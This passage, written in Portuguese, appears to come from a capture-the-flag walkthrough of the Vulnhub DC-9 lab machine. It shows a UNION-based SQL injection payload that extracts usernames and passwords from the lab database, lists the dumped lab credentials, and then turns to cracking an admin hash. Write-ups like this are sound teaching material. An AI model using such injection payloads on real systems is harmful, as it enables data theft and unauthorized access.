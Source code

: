 
\newpage

* Extraindo as informacoes (username e password) da tabela UserDetails

```bash
search=Fred' union select 1,username,password,4,5,6 from users.UserDetails #
```

![](/assets/img/Vulnhub/DC-9/info_UserDetails.png)

> marym:3kfs86sfd; julied:468sfdfsd2; fredf:4sfd87sfd1; barneyr:RocksOff; tomc:TC&TheBoyz; jerrym:B8m#48sd; wilmaf:Pebbles; bettyr:BamBam01; chandlerb:UrAG0D!; joeyt:Passw0rd; rachelg:yN72#dsd; rossg:ILoveRachel; monicag:3248dsds7s, phoebeb:smellycats; scoots:YR3BVxxxw87; janitor:Ilovepeepee; janitor2:Hawaii-Five-0


\newpage

### Logando na Aplicacao

* Apos enumerarmos todas as informacoes possiveis no bando de dados por meio de SQLi, vamos tentar logar com as credenciais que achamos. Foram feitos alguns testes com os usuarios e as senhas dos funcionarios que encontramos no "UserDetails", poremo nao tivemos sucesso em nenhuma tentativa


* Lembra do username admin e o hash que estava no campo password. Vamos tentar quebrar aquele hash para ver onde pode nos levar

![](/assets/img/Vulnhub/DC-9/hashes.com.png)
